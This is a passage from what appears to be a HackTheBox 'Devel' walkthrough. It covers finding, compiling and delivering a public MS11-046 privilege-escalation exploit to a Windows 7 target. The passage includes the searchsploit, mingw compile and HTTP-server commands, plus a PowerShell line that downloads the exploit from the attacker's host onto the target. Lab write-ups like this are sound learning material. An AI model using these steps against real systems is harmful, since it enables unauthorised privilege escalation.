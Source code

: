 ![dvl-5](https://user-images.githubusercontent.com/87711310/215333489-6e133fb6-cc27-4d16-bf7e-6f1e0f78b730.png)

Since, I was running `Windows 7 Enterprise`, I was pretty sure that it was vulnerable to bunch of exploits.

So, I instantly use google to look for exploits.

![dvl-6](https://user-images.githubusercontent.com/87711310/215333583-ab21e6ed-9c37-4764-ae99-1c4ec43d2237.png)

I found the [Local Privilege Escalation](https://www.exploit-db.com/exploits/40564), which was well documented.

So I just hoped into my machine and searched for the same exploit using `searchsploit` with the help of the `EDB-ID` given on the exploit-db web-page

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Devel]
└─$ searchsploit -m 40564
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
File Type: C source, ASCII text

Copied to: /home/kali/Desktop/HackTheBox/Windows-boxes/Devel/40564.c
```

The exploit was written in `C` so it required to be compiled first and the detailed instructions were given in the exploit-db page.

The compilation process required `mingw-w64` to be installed, so if you don't have `mingw-w64` you can install it using following commands:
```
apt-get update
apt-get install mingw-w64
```

Then, compile it using the listed command: 
```
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Now that the file is compiled, I had to transfer it to the machine 

I started up a server on my machine 
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Devel]
└─$ python -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
```


Running the following `powershell` script to download the file from the server running on my local machine
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.2:9999/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
```
